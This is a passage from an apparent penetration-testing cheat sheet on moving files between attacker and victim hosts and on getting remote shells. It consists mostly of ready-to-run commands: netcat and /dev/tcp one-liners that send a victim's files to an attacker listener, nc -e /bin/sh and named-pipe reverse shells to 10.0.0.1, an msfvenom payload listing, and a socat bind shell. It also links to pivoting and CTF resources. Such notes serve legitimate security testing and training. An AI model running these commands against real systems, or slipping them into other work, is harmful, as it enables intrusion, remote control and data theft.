 ```bash
# On victim_host:
wget http://10.2.0.15:8123
```

- Listening with `/dev/tcp`
    - https://unix.stackexchange.com/questions/49936/dev-tcp-listen-instead-of-nc-listen

```bash
# Send to victim_host:
# On attacker_host:
cat ./foo | nc -l -q 1 -p 8998
# On victim_host:
cat < /dev/tcp/$target_ip/8998 > ./foo

# Send to attacker_host:
# On attacker_host:
nc -l -p 8998 -q 1 > ./foo < /dev/null
# On victim_host:
cat ./foo > /dev/tcp/$target_ip/8998 0<&1 2>&1
```

- Workaround remote commands without a login shell
    - https://susam.in/blog/file-transfer-with-ssh-tee-and-base64/

```bash
# 1. source_host
ssh user@host | tee ssh.txt
sha1sum /tmp/payload
base64 /tmp/payload
exit
# 2. target_host
sed '1,/$ base64/d;/$ exit/,$d' ssh.txt | base64 -d > payload
grep -A 1 sha1sum ssh.txt
sha1sum payload
```

- Payload processing
    - [netcat – encrypt transfer with openssl · GitHub](https://gist.github.com/leonklingele/d5bd28ee51a4b8e49baa)

- https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65
- https://nullsweep.com/pivot-cheatsheet-for-pentesters/
- https://blog.raw.pm/en/state-of-the-art-of-network-pivoting-in-2019/
- https://github.com/hyperreality/ctf-writeups/blob/master/2020-defcon-redteamvillage/README.md

# reverse shell

- [Online \- Reverse Shell Generator](https://www.revshells.com/)

```bash
# +
msfvenom -l payloads | awk '/cmd\/unix/{print $1}'

# netcat
nc -lvp 4242
nc -e /bin/sh 10.0.0.1 4242
rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f

# Bind shell
# - https://book.hacktricks.xyz/tunneling-and-port-forwarding#socat
# - https://unix.stackexchange.com/questions/22308/socat-reliable-file-transfer-over-tcp
# 1. vulnerable_host
socat EXEC:bash,pty,stderr,setsid,sigint,sane TCP-LISTEN:1337,reuseaddr,fork
# 2. attacker_host
socat FILE:"$(tty)",raw,echo=0 TCP:$vulnerable_host_ip:1337

```
